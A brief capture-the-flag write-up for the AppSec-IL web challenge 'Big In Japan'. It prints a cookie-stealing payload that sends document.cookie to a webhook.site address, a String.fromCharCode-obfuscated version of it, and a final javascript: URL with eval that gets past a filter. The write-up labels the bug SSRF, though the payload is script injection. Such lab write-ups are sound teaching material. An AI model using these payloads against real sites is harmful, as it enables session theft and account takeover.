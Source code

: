 # Big In Japan

- **Category:** Web  
---

The challenge is based on SSRF vuln.

We injecting this payload, to the insecure url parameter: 
```
location.href='https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb?data=' + document.cookie;
```

We obufacte this by this way:
```
String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,98,57,56,52,53,100,48,101,45,52,54,50,52,45,52,101,101,55,45,56,57,99,57,45,57,48,98,102,100,50,98,49,100,51,101,98,63,100,97,116,97,61,39,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59
```

And then, the final payload is:
```
https://big-in-japan.appsecil.ctf.today/?url=jaVasCriPt:eval(String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,98,57,56,52,53,100,48,101,45,52,54,50,52,45,52,101,101,55,45,56,57,99,57,45,57,48,98,102,100,50,98,49,100,51,101,98,63,100,97,116,97,61,39,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59))
```

And the image, from the webhook site:

![web hook](./Final.png)


The flag is `AppSec-IL{omedetto}`